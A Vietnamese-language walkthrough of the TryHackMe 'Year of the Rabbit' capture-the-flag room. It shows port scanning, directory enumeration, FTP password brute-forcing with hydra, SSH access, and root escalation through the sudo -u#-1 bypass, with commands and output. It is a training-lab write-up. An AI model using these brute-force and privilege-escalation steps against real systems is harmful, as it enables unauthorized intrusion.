

Hôm nay tôi sẽ giải CTF [Tryhackme - Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit).

## Reconnaissance

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

```python
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.2
22/tcp open  ssh     syn-ack OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAILCKdtvyy1FqH1gBS+POXpHMlDynp+m6Ewj2yoK2PJKJeQeO2yRty1/qcf0eAHJGRngc9+bRPYe4M518+7yBVdO2p8UbIItiGzQHEXJu0tGdhIxmpbTdCT6V8HqIDjzrq2OB/PmsjoApVHv9N5q1Mb2i9J9wcnzlorK03gJ9vpxAAAAFQDVV1vsKCWHW/gHLSdO40jzZKVoyQAAAIA9EgFqJeRxwuCjzhyeASUEe+Wz9PwQ4lJI6g1z/1XNnCKQ9O6SkL54oTkB30RbFXBT54s3a11e5ahKxtDp6u9yHfItFOYhBt424m14ks/MXkDYOR7y07FbBYP5WJWk0UiKdskRej9P79bUGrXIcHQj3c3HnwDfKDnflN56Fk9rIwAAAIBlt2RBJWg3ZUqbRSsdaW61ArR4YU7FVLDgU0pHAIF6eq2R6CCRDjtbHE4X5eW+jhi6XMLbRjik9XOK78r2qyQwvHADW1hSWF6FgfF2PF5JKnvPG3qF2aZ2iOj9BVmsS5MnwdSNBytRydx9QJiyaI4+HyOkwomj0SINqR9CxYLfRA==
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZyTWF65dczfLiKN0cNpHhm/nZ7FWafVaCf+Oxu7+9VM4GBO/8eWI5CedcIDkhU3Li/XBDUSELLXSRJOtQj5WdBOrFVBWWA3b3ICQqk0N1cmldVJRLoP1shBm/U5Xgs5QFx/0nvtXSGFwBGpfVKsiI/YBGrDkgJNAYdgWOzcQqol/nnam8EpPx0nZ6+c2ckqRCizDuqHXkNN/HVjpH0GhiscE6S6ULvq2bbf7ULjvWbrSAMEo6ENsy3RMEcQX+Ixxr0TQjKdjW+QdLay0sR7oIiATh5AL5vBGHTk2uR8ypsz1y7cTyXG2BjIVpNWeTzcip7a2/HYNNSJ1Y5QmAXoKd
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKavguvzBa889jvV30DH4fhXzMcLv6VdHFx3FVcAE0MqHRcLIyZcLcg6Rf0TNOhMQuu7Cut4Bf6SQseNVNJKK8=
|   256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBJPbfvzsYSbGxT7dwo158eVWRlfvXCxeOB4ypi9Hgh
80/tcp open  http    syn-ack Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 không thể login, port 80 thì tôi có 1 default page. Không có gì quá đặc biệt để khai thác manual nên tôi sẽ dùng [dirsearch](https://github.com/maurosoria/dirsearch) tìm web path. 

```python
200 -    1KB - /assets/                                          
301 -  315B  - /assets  ->  http://10.10.173.165/assets/         
200 -    8KB - /index.html    
```

Ở __/assets/__ tôi có 1 quả meme huyền thoại [này](https://www.youtube.com/watch?v=dQw4w9WgXcQ) và 1 file *style.css*. Xem qua file css này thì tôi tìm được 1 path mới.


Vào path này thì tôi có 1 popup


Nếu ấn OK thì nó sẽ quay trở lại cái meme bên trên :expressionless: Tuy nhiên nếu không ấn OK thì page vẫn loading, tôi nghĩ rằng nó đang chờ để redirect, thử mở BurpSuite và kiểm tra và tôi tìm ra hidden_directory 


Trong dir ẩn này tôi có 1 bức ảnh, cũng không để làm gì, dùng *binwalk* hay *steghide* cũng không ra gì, mất vài phút bế tắc thì tôi đáp nó lên [hexed.it](http://hexed.it) và tìm ra user ftp server.



Vậy là tôi có ftp username và 1 list password. Copy list này vào 1 file wordlist và burteforce nó với __hydra__.

```python
┌──(neo㉿kali)-[~/Downloads]
└─$ hydra -l ftpuser -P wordlist ftp://10.10.65.86                                                     
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-03 03:36:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.65.86:21/
[21][ftp] host: 10.10.65.86   login: ftpuser   password: *************
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-03 03:36:38
```

Login vào ftp server, tôi có 1 file txt, lấy nó về và tôi có 1 đoạn mã [Brainfuck](https://vi.wikipedia.org/wiki/Brainfuck), ngôn ngữ lập trình hại não nhất mà tôi từng biết, copy đoạn mã tôi có vào [đây](https://www.splitbrain.org/_static/ook/) và tôi có 1 cặp username - password. 

## SSH

Login vào ssh

```python
eli@10.10.65.86's password: 

1 new message
Message from Root to Gwendoline:
"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
END MESSAGE

eli@year-of-the-rabbit:~$ 
```

Tôi có 1 message ở đây nhưng không phải cho Eli mà cho Gwendoline, trong thư mục /home/ cũng có user này và *user flag* cũng nằm ở đây. Tuy nhiên user Eli không có quyền truy cập. Quay lại message thì nó nói rằng có 1 nơi gọi là __*s3cr3t hiding place*__, vậy thì đây có thể lầ 1 thư mục nào đó. 

```python
eli@year-of-the-rabbit:~$ find / -type d -name *s3cr3t* 2>/dev/null
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t/
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

Sử dụng pass có được để đổi user và tôi có __*user flag*__. 

## Privilege escalation

`sudo -l`:

```python
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Vào [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) để tìm sudo. Tuy nhiên user __gwendoline__ không thể sử dụng sudo để thực thi lệnh. Tôi thử check version của sudo: `Sudo version 1.8.10p3` và tìm được vài thứ hay ho trên [exploit-db](https://exploit-db.com/exploits/47502). Tôi có thể sử dụng `sudo -u#-1` để thực hiện lệnh `vi` với file user.txt

```python
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 vi /home/gwendoline/user.txt 

# id
uid=0(root) gid=0(root) groups=0(root)
```

Done.

## Tổng kết

Bài này khá hay vì phải kết hợp nhiều thông tin cũng như nhiều công cụ. Đặc biệt là cách leo thang đặc quyền với exploit sudo. Và biết thêm 1 ngôn ngữ lập trình mới là Brainfuck, mặc dù vậy tôi không nghĩ là ngôn ngữ này có tính ứng dụng cao, chủ yếu để giải trí và làm CTF, hoặc do tôi chưa tìm được phần mềm hay chương trình nào viết bằng ngôn ngữ này, who knows!

Đọc thêm: [Sudo](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-0-using-sudo-rights-3Q75w8x2KWb)
